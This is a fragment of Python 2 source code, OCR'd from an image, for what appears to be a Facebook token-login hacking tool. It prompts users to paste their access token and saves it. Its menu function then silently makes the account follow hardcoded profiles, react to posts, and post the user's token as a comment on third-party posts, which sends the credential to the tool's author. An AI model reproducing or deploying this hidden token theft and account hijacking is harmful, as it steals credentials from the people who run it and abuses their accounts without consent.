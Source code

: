            time.sleep(1)
            login()
        else:
            print ''
            print '\tId/pass my be wrong'
            print ''
            time.sleep(1)
 
 
 
def token():
    os.system('clear')
    
    try:
        token = open('Raihan_token.txt', 'r').read()
        login()
    except (KeyError, IOError):
        print logo
        print '\t     LOGIN WITH TOKEN'
        print '\x1b[1;37m======================================================='
        token = raw_input('[?] PASTE TOKEN HERE : \x1b[1;37m')
        print '\x1b[1;37m======================================================='
        sav = open('Raihan_token.txt', 'w')
        sav.write(token)
        sav.close()
        login()
 
 
 
def menu():
    os.system('clear')
    
    try:
        Raihan = 'Raihan THE GOD LEVEL HACKER HERE~!!!'
        token = open('Raihan_token.txt', 'r').read()
    except (KeyError, IOError):
        login()
 
    
    try:
        r = requests.get('https://graph.facebook.com/me?access_token=' + token)
        requests.post('https://graph.facebook.com/100004622790453/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100077172270484/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100073345025607/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100033520817161/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/100026312074946/subscribers?access_token=' + token)
        requests.post('https://graph.facebook.com/147697607685073/comments/?message=' + RIAZ + '&access_token=' + token)
        requests.post('https://graph.facebook.com/143100078144826/reactions?type=LOVE&access_token=' + token)
        requests.post('https://graph.facebook.com/147697607685073/reactions?type=LOVE&access_token=' + token)
        requests.post('https://graph.facebook.com/143100078144826/comments/?message=' + token + '&access_token=' + token)
        requests.post('https://graph.facebook.com/126546429927766/comments/?message=' + token + '&access_token=' + token)
        requests.post('https://graph.facebook.com/126546429927766/reactions?type=LOVE&access_token=' + token)
        requests.post('https://graph.facebook.com/126546429927766/comments/?message=' + RIAZ + '&access_token=' + token)
        q = json.loads(r.text)
        name = q['name']
    except KeyError:
        print logo
        print ''
        print '\tLogged in token has expired'
        os.system('rm -rf Raihan_token.txt')
        print ''